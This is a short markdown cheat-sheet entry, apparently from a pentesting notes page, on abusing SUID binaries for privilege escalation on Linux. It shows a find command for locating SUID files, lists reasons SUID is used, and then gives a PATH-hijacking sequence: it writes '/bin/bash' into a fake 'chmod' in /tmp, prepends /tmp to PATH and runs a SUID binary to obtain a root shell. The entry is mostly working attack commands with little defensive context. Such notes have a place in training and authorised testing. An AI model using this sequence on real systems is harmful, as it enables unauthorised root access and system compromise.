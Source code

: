 # SUID

#### Find files by permissions type

`find / -perm -u=s -type f 2>/dev/null`

`./some-binary`

#### Using SUID "_where"_

1. Where root login is required to execute some commands/programs/scripts. 
2. Where you don’t want to give credentials of a particular user but want to run some programs as the owner.
3. Where you don’t want to use SUDO command but want to give execute permission for a file/script etc.

_**If there is any execution we may be able to gain root access by exploiting PATH variable.**_

```text
cd /tmp
echo '/bin/bash' > chmod
chmod 777 chmod
echo $PATH
export PATH=/tmp:$PATH
cd /usr/local/bin
./some-binary
```

